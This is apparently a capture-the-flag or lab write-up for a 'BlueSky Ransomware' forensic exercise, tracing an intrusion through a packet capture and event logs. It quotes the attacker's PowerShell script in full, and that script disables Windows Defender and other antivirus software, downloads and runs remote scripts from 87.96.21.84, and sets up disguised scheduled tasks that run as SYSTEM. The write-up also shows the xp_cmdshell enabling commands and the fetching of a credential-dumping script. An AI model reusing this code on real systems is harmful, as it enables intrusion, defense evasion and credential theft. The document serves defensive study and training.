







# BlueSky Ransomware

### Scenario

A high-profile corporation that manages critical data and services across diverse industries has reported a significant security incident. Recently, their network has been impacted by a suspected ransomware attack. Key files have been encrypted, causing disruptions and raising concerns about potential data compromise. Early signs point to the involvement of a sophisticated threat actor. Your task is to analyze the evidence provided to uncover the attacker’s methods, assess the extent of the breach, and aid in containing the threat to restore the network’s integrity.

### Investigation

I opened the PCAP file containing the network traffic recorded during the attack. Then, I applied a filter for the TCP protocol and found that the IP 87.96.21.84 was sending a large number of SYN requests to various ports. Compared to the traffic it was receiving, the number of outgoing requests was significantly higher. This is considered malicious activity because it indicates that the IP was performing port scanning. There are many tools used for this purpose, such as Nmap, Angry IP Scanner, and Netcat (nc), with Nmap being the most prominent among them.

<figure><figcaption></figcaption></figure>

I began to delve deeper to identify the username of the targeted account and pinpoint it.\
I opened the Protocol Hierarchy Statistics menu in Wireshark. The Protocol Hierarchy Statistics feature in Wireshark provides an overview of the protocols observed in the captured traffic.

<figure><figcaption></figcaption></figure>

Using this data, we will focus on the Tabular Data Stream (TDS) protocol, as it reveals important database interactions.\
Among these packets, TDS represents about 6% of the total packets, indicating significant activity related to database communications. TDS, a protocol developed by Microsoft, is primarily used for client-server communication with SQL Server. It facilitates operations such as login authentication, query execution, and data exchange. Its presence in this network capture suggests that interactions with the database server are central to the investigation.

In one of the exchanged packets, a TDS login attempt is observed.

<figure><figcaption></figcaption></figure>

Analyzing the packet reveals sensitive authentication details, including the username <mark style="color:blue;">sa</mark> (System Administrator in SQL Server) and the password <mark style="color:blue;">cyb3rd3f3nd3r$</mark>. This indicates the attacker targeted the <mark style="color:blue;">sa</mark> account, a high-value target. Such data is often exposed when attackers intercept database traffic or when weak configurations allow plaintext credential transmission.

To confirm if the attacker succeeded, we analyzed the TDS protocol traffic. A specific TCP stream showed a TDS7 login request, containing the username and password used in the connection attempt. This helps determine whether the attacker gained access.

<figure><figcaption></figcaption></figure>

Within the packet dissection, the login credentials are displayed in plain text due to the lack of encryption on the communication channel. The password field clearly displays the string <mark style="color:blue;">cyb3rd3f3nd3r$</mark>, indicating that these credentials were transmitted without encryption, making them easily accessible to anyone monitoring the network.

Since the credentials are visible in plain text, it is highly likely that the attacker could successfully access the server using these details. To confirm a successful login, subsequent packets typically include server responses indicating successful authentication acknowledgment. While this example highlights the discovery of valid credentials, the visibility of such sensitive information confirms the presence of a critical security vulnerability. The absence of encryption in the TDS session leaves database authentication exposed to interception, enabling attackers to escalate their activities after gaining access.

***

Attackers often modify certain settings to facilitate lateral movement within the network.

To determine what setting the attacker enabled to control the target host further and execute additional commands, we shift our focus to analyze the SQL batch query transmitted through the Tabular Data Stream (TDS) protocol. The captured traffic reveals the attacker executing specific SQL commands designed to alter the configuration of the SQL Server, enabling the execution of system commands through the database server.

<figure><figcaption></figcaption></figure>

فIn this session, the attacker sends a SQL batch query with configuration commands. The first command, `EXEC sp_configure "show advanced options", 1; RECONFIGURE;`  , enables advanced server options, often the first step in privilege escalation.

The second command, `EXEC sp_configure  'xp_cmdshell' ,  1; RECONFIGURE;` , enables xp\_cmdshell, allowing SQL Server to execute OS commands directly. This turns the database server into a tool for further attacks, such as running malicious scripts or creating backdoors.

This can also be confirmed by analyzing Event ID 15457 in Windows Event Logs.

<figure><figcaption></figcaption></figure>

Event ID 15457 is a security audit event in Microsoft SQL Server triggered when xp\_cmdshell is modified. By default, this feature is disabled due to security risks, as attackers can use it to run arbitrary commands. Logging this event often signals that xp\_cmdshell was enabled or reconfigured, which could indicate legitimate admin tasks or malicious activities like privilege escalation. Monitoring this event is crucial, as unexpected occurrences may point to an attack or unauthorized changes.

***

Attackers often use process injection to escalate privileges within a system.

Process injection is a common technique used by attackers to execute malicious code within the address space of a legitimate process, enabling privilege escalation, persistence, and evasion of security controls. By injecting code into a trusted process, attackers can hide their activities, making detection more difficult for security tools. This method allows attackers to operate with the privileges of the targeted process, often gaining administrative or system-level access when injecting into high-privilege processes like PowerShell, LSASS, or svchost.exe.


<figure><figcaption></figcaption></figure>

To detect the injection process, I checked the Event Viewer and began opening each event to read the details until I found Host-name=MSFConsole, which is associated with Metasploit. This was detected by the host application.

After gaining elevated privileges, the attacker attempted to download a file, as evidenced by the HTTP traffic captured in the packet stream.

To identify the file the attacker tried to download, I added the attacker's IP address as a filter along with the request method.

<figure><figcaption></figcaption></figure>


Understanding which group Security Identifier (SID) the malicious script checks to verify the current user's privileges can provide insights into the attacker's intentions.

The scripts works to determine a lot of things in the same time in overview

**1. Privilege and OS Version Check:**

```
$priv = [bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")
$osver = ([environment]::OSVersion.Version).Major
```

* **$priv**: Checks if the current user belongs to the **Administrators group** by matching the group's **SID** (`S-1-5-32-544`).
* **$osver**: Retrieves the major version of the operating system (e.g., Windows 10 or 11).

***

**2. Error Handling Configuration:**

```
$WarningPreference = "SilentlyContinue"
$ErrorActionPreference = "SilentlyContinue"
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true }
```

* Suppresses warnings and errors to avoid interruptions.
* Ignores SSL certificate validation errors.

***

**3. URL Definition and Helper Functions:**

```
$url = "http://87.96.21.84"
```

* Defines a base URL for further interactions.

***

**4. URL Reachability Test:**

```
Function Test-ScriptURL {
    param ([string]$scriptUrl)
    try {
        $request = Invoke-WebRequest -Uri $scriptUrl -UseBasicParsing -TimeoutSec 5 -ErrorAction Stop
        if ($request.StatusCode -eq 200) {
            return $true
        } else {
            return $false
        }
    } catch {
        return $false
    }
}
```

* Checks if the specified URL (`$scriptUrl`) is reachable by sending a web request.

***

**5. Disabling Antivirus Services:**

```
Function StopAV {
    if ($osver -eq "10") {
        Set-MpPreference -DisableRealtimeMonitoring $true -ErrorAction SilentlyContinue
    }
    Function Disable-WindowsDefender {
        if ($osver -eq "10") {
            Set-MpPreference -DisableRealtimeMonitoring $true -ErrorAction SilentlyContinue
            Set-MpPreference -ExclusionPath "C:\ProgramData\Oracle" -ErrorAction SilentlyContinue
            Set-MpPreference -ExclusionPath "C:\ProgramData\Oracle\Java" -ErrorAction SilentlyContinue
            Set-MpPreference -ExclusionPath "C:\Windows" -ErrorAction SilentlyContinue

            $defenderRegistryPath = "HKLM:\SOFTWARE\Microsoft\Windows Defender"
            $defenderRegistryKeys = @(
                "DisableAntiSpyware",
                "DisableRoutinelyTakingAction",
                "DisableRealtimeMonitoring",
                "SubmitSamplesConsent",
                "SpynetReporting"
            )

            if (-not (Test-Path $defenderRegistryPath)) {
                New-Item -Path $defenderRegistryPath -Force | Out-Null
            }

            foreach ($key in $defenderRegistryKeys) {
                Set-ItemProperty -Path $defenderRegistryPath -Name $key -Value 1 -ErrorAction SilentlyContinue
            }

            Get-Service WinDefend | Stop-Service -Force -ErrorAction SilentlyContinue
            Set-Service WinDefend -StartupType Disabled -ErrorAction SilentlyContinue
        }
    }

    $servicesToStop = "MBAMService", "MBAMProtection", "*Sophos*"
    foreach ($service in $servicesToStop) {
        Get-Service | Where-Object { $_.DisplayName -like $service } | ForEach-Object {
            Stop-Service $_ -ErrorAction SilentlyContinue
            Set-Service $_ -StartupType Disabled -ErrorAction SilentlyContinue
        }
    }
}
```

* Attempts to disable **Windows Defender** and other antivirus services if the OS is Windows 10.
* Modifies registry keys and stops related services.

***

**6. CleanerEtc and CleanerNoPriv Functions:**


```
Function CleanerEtc {
    $WebClient = New-Object System.Net.WebClient
    $WebClient.DownloadFile("http://87.96.21.84/del.ps1", "C:\ProgramData\del.ps1") | Out-Null
    C:\Windows\System32\schtasks.exe /f /tn "\Microsoft\Windows\MUI\LPupdate" /tr "C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass -File C:\ProgramData\del.ps1" /ru SYSTEM /sc HOURLY /mo 4 /create | Out-Null
    Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('http://87.96.21.84/ichigo-lite.ps1'))
}

Function CleanerNoPriv {
    $WebClient = New-Object System.Net.WebClient
    $WebClient.DownloadFile("http://87.96.21.84/del.ps1", "C:\Users\del.ps1") | Out-Null
    C:\Windows\System32\schtasks.exe /create /tn "Optimize Start Menu Cache Files-S-3-5-21-2236678155-433529325-1142214968-1237" /sc HOURLY /f /mo 3 /tr "C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass C:\Users\del.ps1" | Out-Null
}
```

* **CleanerEtc**: Downloads a script (`del.ps1`) and schedules it to run hourly with SYSTEM privileges.
* **CleanerNoPriv**: Downloads the same script but schedules it to run with user-level privileges.

***

**7. Main Script Logic:**

```
$scriptUrl = "http://87.96.21.84/del.ps1"

if (Test-URL -url $url) {
    Write-Host "Connection to $url successful. Proceeding with execution."
    
    if (Test-ScriptURL -scriptUrl $scriptUrl) {
        Write-Host "Script at $scriptUrl is reachable."

        if ($priv) {
            CleanerEtc

            $encodedDiscovery = "SW52b2tlLUV4cHJlc3Npb24gIndob2FtaSI="
            $decodedDiscovery = [System.Convert]::FromBase64String($encodedDiscovery)
            $commandDiscovery = [System.Text.Encoding]::UTF8.GetString($decodedDiscovery)
            powershell -exec bypass -w 1 $commandDiscovery

            Write-Host "Privilege level: SYSTEM"
        } else {
            CleanerNoPriv
            Write-Host "Privilege level: User"
        }
    } else {
        Write-Host "Script at $scriptUrl is not reachable. Terminating."
        exit
    }
} else {
    Write-Host "Connection to $url failed. Terminating."
    exit
}

if ($priv -eq $true) {
    try {
        StopAV
    } catch {}
    Start-Sleep -Seconds 1
    CleanerEtc
} else {
    CleanerNoPriv
}
```

* **Checks Connectivity**: If the base URL is reachable, it proceeds; otherwise, it terminates.
* **Checks Script Availability**: If the script URL is reachable, it continues based on the privilege level.
* **Privileged User**: Executes `CleanerEtc` and a base64-decoded command (`Invoke-Expression "whoami"`).
* **Non-Privileged User**: Executes `CleanerNoPriv`.
* **Disables Antivirus**: If privileged, attempts to disable antivirus services before running the cleaner functions again.

***

#### **Determining the SID:**

The script checks the **SID** `S-1-5-32-544` to determine if the current user is a member of the **Administrators group**. This is done in the following line:

```
$priv = [bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")
```

* **S-1-5-32-544**: This is the well-known SID for the **Administrators group** in Windows.

***

**Windows Defender plays a critical role in defending against cyber threats. If an attacker disables it, the system becomes more vulnerable to further attacks.**

By analyzing the downloaded script, the attacker disables multiple Windows Defender functionalities by modifying registry keys under the path `HKLM:\SOFTWARE\Microsoft\Windows Defender`

<figure><figcaption></figcaption></figure>

The specific registry keys targeted by the attacker, in the order found in the script, are:

1. `DisableAntiSpyware` - This key disables Windows Defender's anti-spyware capabilities.
2. `DisableRoutinelyTakingAction` - This key prevents Defender from taking automatic remediation actions against detected threats.
3. `DisableRealtimeMonitoring` - This key turns off real-time protection, allowing malware to execute without immediate detection.
4. `SubmitSamplesConsent` - This key disables the feature that sends suspicious samples to Microsoft for analysis.
5. `SpyNetReporting` - This key disables the reporting of threat intelligence data to Microsoft, reducing visibility into potential attacks.

The script further checks if the registry path exists and creates it if missing, ensuring the keys are added or modified successfully. It then assigns each key a value of 1, effectively turning off the corresponding Defender feature. Finally, the script stops and disables the Windows Defender service `WinDefend`, along with other security services, to further weaken system defenses.

By disabling these protections, the attacker ensures that malicious activities can proceed without interference, emphasizing the importance of monitoring registry changes and enforcing security policies to protect critical configurations.

\
~~---------------------------------------------------------------------------------------------------------------------~~


The Second Download URL is firstly appear in CleanerETC function

[http://87.96.21.84/del.ps1](http://87.96.21.84/del.ps1)

<figure><figcaption></figcaption></figure>

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

&#x20;**Identifying malicious tasks and understanding how they were used for persistence helps in fortifying defenses against future attacks.**

**Scheduled tasks** in Windows automate script, command, or program execution at set times or intervals. While useful for legitimate tasks, attackers abuse this feature to maintain persistence in compromised systems. By creating scheduled tasks, they ensure malicious payloads run automatically, even after reboots, without manual intervention.

The network capture was filtered using the Wireshark filter **`http contains "schtasks"`**, targeting HTTP traffic with the keyword **"schtasks."**

<figure><figcaption></figcaption></figure>

This filter helps narrow down traffic that may involve the use of the schtasks.exe utility, a Windows command-line tool used to create, delete, or manage scheduled tasks. Filtering for this keyword is effective in identifying malicious activity related to task scheduling.

<figure><figcaption></figcaption></figure>

**According to your analysis of the second malicious file, what is the MITRE ID of the tactic the file aims to achieve?**

The **MITRE ATT\&CK framework** is a global knowledge base documenting adversary tactics, techniques, and procedures (TTPs) from real-world cyberattacks. It helps cybersecurity professionals analyze threats, develop defenses, and map attack patterns using standardized IDs for tactics and techniques.

The second malicious file, **del.ps1**, aligns with the **Defense Evasion (TA0005)** tactic, focusing on avoiding detection. The script disables security features, stops antivirus services, and modifies registry keys to disable Windows Defender.

The most relevant MITRE technique is:\
**T1562.001 – Impair Defenses: Disable or Modify Tools**\
This describes how attackers disable or modify security tools to evade detection. The script disables Windows Defender, alters registry settings, and stops services, making the system vulnerable to further attacks.

[https://attack.mitre.org/tactics/TA0005/](https://attack.mitre.org/tactics/TA0005/)

<figure><figcaption></figcaption></figure>

**What's the invoked PowerShell script used by the attacker for dumping credentials?**

`Credential dumping` is a technique used by attackers to extract account credentials, such as usernames and password hashes, from compromised systems. These credentials are often stored in memory, registry hives, or files and are targeted to gain unauthorized access to systems and escalate privileges. Attackers typically use tools or scripts to retrieve this sensitive information and leverage it for lateral movement or privilege escalation within a network.

The Wireshark filter applied in this capture, `http contains "lsass"`, specifically looks for HTTP traffic related to processes interacting with the Local Security Authority Subsystem Service (LSASS). LSASS is a critical process in Windows that handles security policies, authentication, and the storage of credentials in memory.

<figure><figcaption></figcaption></figure>

By filtering for traffic related to LSASS, the analysis focuses on detecting scripts or commands targeting this process, which is a common method for credential dumping.

<figure><figcaption></figcaption></figure>

The HTTP stream shows the attacker downloaded and executed a PowerShell script named **Invoke-PowerDump.ps1** from:\
[**http://87.96.21.84/Invoke-PowerDump.ps1**](http://87.96.21.84/Invoke-PowerDump.ps1)

This script dumps password hashes from the local system's registry, requiring administrative privileges to escalate to **SYSTEM** permissions. It uses PowerShell commands and memory-access techniques to bypass defenses and extract credentials from **LSASS** or registry hives.

This attack aligns with the MITRE ATT\&CK technique **T1003 (OS Credential Dumping)** under the **Credential Access (TA0006)** tactic. Defenses include monitoring HTTP requests for suspicious scripts and restricting administrative access to **LSASS** memory.

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

\
&#x20;**Understanding which credentials have been compromised is essential for assessing the extent of the data breach. What's the name of the saved text file containing the dumped credentials?**

The Wireshark filter applied in the packet capture, `http contains "Invoke-PowerDump.ps1"`, is designed to isolate HTTP traffic involving the specific PowerShell script `Invoke-PowerDump.ps1`. This script is associated with credential dumping and is often used by attackers to extract password hashes or sensitive data from compromised systems. Filtering traffic by this keyword helps focus on HTTP requests and responses related to the script's download or execution, aiding in identifying malicious activity.<br>

<figure><figcaption></figcaption></figure>

The HTTP stream reveals that the attacker downloaded and executed the Invoke-PowerDump.ps1 script from the server hosted at `http://87.96.21.84`. This script is designed to extract password hashes stored in the system, requiring administrative privileges to access sensitive areas, such as the Security Accounts Manager (SAM) database or LSASS memory. Within the stream, encoded commands are observed, indicating that the attacker encoded parts of the script using Base64 to obfuscate its actions and bypass detection mechanisms.

The encoded command is then decoded using `CyberChef`, revealing that the attacker executed the Invoke-PowerDump function and saved the extracted credentials to a file.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

The decoded output explicitly shows the command used to write the dumped credentials into a text file stored at `C:\ProgramData\hashes.txt`

This file contains the harvested credentials and serves as a staging point for the attacker to collect and exfiltrate the data. By analyzing the file name and its storage location, it is evident that the attacker intended to keep the file accessible for later retrieval while minimizing visibility by placing it in a commonly used directory.

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

**Knowing the hosts targeted during the attacker's reconnaissance phase, the security team can prioritize their remediation efforts on these specific hosts. What's the name of the text file containing the discovered hosts?**

The captured HTTP stream reveals the attacker's use of PowerShell scripts to perform reconnaissance and credential-based attacks. During the reconnaissance phase, the attacker retrieved a list of target hosts from a text file stored on the attacker's server.

<figure><figcaption></figcaption></figure>

The PowerShell command executed in the script fetches this file using the Invoke-WebRequest cmdlet. Specifically, the command:

```
$hostsContent = Invoke-WebRequest -Uri "http://87.96.21.84/extracted_hosts.txt" | Select-Object -ExpandProperty Content -ErrorAction Stop
```

downloads the file named `extracted_hosts.txt` from the attacker's server at `87.96.21.84`.


<figure><figcaption></figcaption></figure>

The file likely contains a list of **IP addresses** or **hostnames** identified during the attacker's reconnaissance phase, marking potential targets for exploitation, lateral movement, and privilege escalation.

The script processes this file to extract hosts and uses the **Invoke-SMBExec** cmdlet to attempt remote execution. **SMB (Server Message Block)** is a Windows file-sharing protocol enabling access to files, printers, and network resources. It operates over ports **139** and **445** and is critical for enterprise tasks but often exploited for lateral movement, credential theft, and remote code execution, especially when misconfigured or outdated (e.g., **EternalBlue**). Securing SMB involves strong authentication, disabling **SMBv1**, and applying security patches.

The attacker uses retrieved credentials and discovered hosts to facilitate lateral movement within the network.

\---------------------------------------------------------------------------------------------------------------------

### To Know the Dropped ransomware file name i used virus total after upload the hash of the malware on it <a href="#id-15-to-know-the-dropped-ransomware-file-name-i-used-virus-total-after-upload-the-hash-of-the-malwa" id="id-15-to-know-the-dropped-ransomware-file-name-i-used-virus-total-after-upload-the-hash-of-the-malwa"></a>

<figure><figcaption></figcaption></figure>

***


&#x20;**In some cases, decryption tools are available for specific ransomware families. Identifying the family name can lead to a potential decryption solution. What's the name of this ransomware family?**

<figure><figcaption></figcaption></figure>
